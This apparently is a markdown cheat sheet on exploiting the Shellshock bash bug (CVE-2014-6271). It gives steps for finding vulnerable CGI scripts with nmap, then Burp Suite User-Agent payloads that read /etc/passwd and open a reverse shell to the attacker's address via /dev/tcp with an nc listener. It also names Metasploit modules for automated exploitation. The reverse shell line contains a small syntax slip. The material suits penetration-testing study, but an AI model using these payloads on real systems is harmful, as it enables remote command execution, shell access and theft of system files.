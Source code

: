# Shellshock - CVE-2014-6271

This allows an attacker to run remote commands on the target  

Bash executes trailing commands after a series of characters -- () {:;};.  
You will need to locate an input vector or script that allows you to communicate with bash

### Checking if it is vulnerable
1. Enumerate site with nmap
2. Verify if there is a webpage running
3. Load page in browser
4. Check for any movement (this may tell you if there is a cgi script running)
5. Check page source for .cgi files
6. Verify is script is available in root of web server.
   - **Example** http://(IP address)/gettime.cgi
7. Verify if it is vulnerable - ```nmap -sV (IP address) --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"```

### Manual exploitation
1. Launch BurpSuite
2. Enable FoxyProxy
3. Re-load the page with the CGI script
4. Send request to Repeater
5. Remove User-agent information
6. Replace it with our characters -- ```() {:;}; echo; echo; /bin/bash -c 'cat /etc/passwd'.```

**Getting a reverse shell**  
1. setup listener -- ```nc -lvnp 1234```
2. In Burpsuite, in Repeater -- ``````() {:;}; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/(your IP address)/1234 0>1'```
3. 
### Automated Exploitaion

1. Launch Metasploit
2. Modules:
   - auxiliary/scanner/http/apache_mod_cgi_bash_env -- Tells you if its vulnerable
   - exploit/multi/http/apache_mod_cgi_bash_env_exec -- The exploit
